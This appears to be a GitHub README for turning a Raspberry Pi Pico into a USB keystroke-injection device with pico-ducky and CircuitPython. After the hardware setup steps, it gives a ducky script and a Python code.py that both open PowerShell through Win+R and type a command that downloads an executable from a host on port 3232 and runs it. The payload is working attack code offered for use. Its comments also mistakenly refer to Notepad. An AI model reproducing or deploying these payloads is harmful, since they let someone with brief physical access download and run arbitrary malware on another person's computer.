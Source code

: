 # Requirements 

- Raspberry Pi Pico
- Micro usb to usb A adapter
- (optional) [Micro usb to usb A dongle](https://thepihut.com/products/pico-dongle-lite)
- (optional) Bread Board
- (optional) Jumper Wires

# Setup

- To setup the tool connect the pin 1 (GP0) to pin 3 (GND) this will stop pico from injecting the payloads in the current machine
- Download the .uf2 for ur microcontroller
    - [Raspberry Pi pico](https://circuitpython.org/board/raspberry_pi_pico/)
    - [Raspberry Pi pico W](https://circuitpython.org/board/raspberry_pi_pico_w/)
    - [Raspberry Pi pico 2](https://circuitpython.org/board/raspberry_pi_pico2/)
    - [Raspberry Pi pico 2W](https://circuitpython.org/board/raspberry_pi_pico2_w/)
- Plug the pico into the computer, holding the BOOTSEL button. A new drive called "RPI-RP2" should appear.
- Copy the .uf2 into the drive, this should reboot the device and reconnect as CIRCUITPY
- Download [adafruit-circuitpython-bundle-9.x-mpy-YYYYMMDD.zip](https://github.com/adafruit/Adafruit_CircuitPython_Bundle/releases/)
- Extract the downloaded ZIP file, then navigate to the lib folder. Locate the following specific folders and files, and copy them to the lib folder on your Raspberry Pi Pico
    - adafruit_hid
    - adafruit_debouncer.mpy
    - adafruit_ticks.mpy
    - asyncio
    - adafruit_wsgi
- clone the [pico-ducky](https://github.com/dbisu/pico-ducky) repo and copy the following files to the root of the device
    - boot.py
    - duckyinpython.py
    - code.py
- Finally create a file called payload.dd and write the a [ducky script](https://github.com/hak5/usbrubberducky-payloads)
```
DELAY 5000
GUI R
DELAY 500
STRING powershell
ENTER
DELAY 1000
STRING Invoke-WebRequest -Uri http://192.168.1.140:3232/4ac5d816227cbfba9580a510af5272e2 -OutFile test.exe; Start-Process .\test.exe
```
- In case you dont want to use ducky script its possible to run python as well by editing the code.py file which will run on boot
```
import time
import usb_hid
from adafruit_hid.keyboard import Keyboard
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS
from adafruit_hid.keycode import Keycode

# Create a keyboard object
keyboard = Keyboard(usb_hid.devices)
layout = KeyboardLayoutUS(keyboard)

time.sleep(5)  # Wait for 5 seconds after the Pico is plugged in

# Open the Run dialog by pressing Windows key + R
keyboard.press(Keycode.WINDOWS, Keycode.R)  # Windows + R
keyboard.release_all()

time.sleep(0.5)  # Short delay to ensure the Run dialog opens

# open powershell
layout.write("powershell")
keyboard.press(Keycode.ENTER)
keyboard.release_all()

time.sleep(1)  # Wait for Notepad to open

# Now type the message in Notepad
layout.write("Invoke-WebRequest -Uri http://192.168.1.140:3232/4ac5d816227cbfba9580a510af5272e2 -OutFile test.exe; Start-Process .\\test.exe")
keyboard.release_all()
```
